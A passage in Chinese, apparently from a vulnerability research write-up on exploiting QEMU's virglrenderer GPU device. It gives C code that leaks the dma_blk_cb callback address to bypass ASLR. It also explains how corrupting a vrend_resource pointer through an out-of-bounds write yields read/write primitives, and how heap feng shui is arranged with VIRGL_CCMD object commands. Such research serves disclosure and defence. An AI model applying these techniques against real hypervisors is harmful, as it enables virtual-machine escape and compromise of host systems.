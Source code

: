 其中 common 字段保存了回调函数的地址（行 34、1326），它指向 dma_blk_cb()。我们可以通过打开目录来迫使 QEMU 分配该对象：

```
unsigned long leak_address(void)
{
    unsigned long dma_off;
    struct BlkAioEmAIOCB *aio;
    while (1) {
        dir = opendir(DIR_PATH);
        closedir(dir);
        res = create_resource();
        ptr = map_resource(res);
        aio = (struct BlkAioEmAIOCB*)ptr;
        dma_off = (unsigned long)aio->common.cb - dma_blk_cb;
        if (dma_off % 0x1000 == 0)
            return (unsigned long)aio->common.cb;
    }
    return 0;
}

```

构造读写原语

我使用 vrend_resource 对象来构造原语，整个过程如下：

![](https://vul.360.net/wp-content/uploads/2022/03/rw.png)

通过堆风水，受害者对象紧邻越界写对象。我们借助漏洞篡改受害者对象的 ptr 指针，使其指向 power 对象。正常情况下，ptr 指向数据缓冲区，应用可以写入任意内容。现在我们将它指向 power 对象，那么，我们可以控制 power 对象所有的字段。这里之所以没有直接将 ptr 指向目标地址，是因为我们无法构造出读原语。为了克服这个问题，我们需要通过 power 对象来进一步转化。具体的方式是使 res->iov 指向 res->mipmap_offsets[0]。逻辑上 mipmap_offsets[0] 表示 iov 的起始地址，而 mipmap_offsets[1] 表示 iov 的长度。此时，我们可以通过 VIRGL_CCMD_COPY_TRANSFER3D 命令实现读写原语。要完成上述方法，我们需要解决以下问题：

1.  使受害者对象紧邻越界写对象；
2.  需要知道 power 对象的地址；

正常情况下，两个 resource 之间会插入其他对象。为了使 resource 对象相邻，我们可以先分配一些使用相同 chunk 的对象，然后将这些对象释放，从而迫使 libc 保留一些未使用的 chunk。在两个 resource 之间分配的对象可以使用这些 chunk，从而确保 resource 相邻。我们选取的对象是 pipe_depth_stencil_alpha_state，可以通过 VIRGL_CCMD_CREATE_OBJECT 和 VIRGL_CCMD_DESTROY_OBJECT 命令来分配和释放它：

```
src/vrend_decode.c

vrend_decode_block()
|
| 
|-> vrend_decode_create_object()
|    |
|    |
|    |-> vrend_decode_create_dsa()
|
| 
|-> vrend_decode_destroy_object()

```

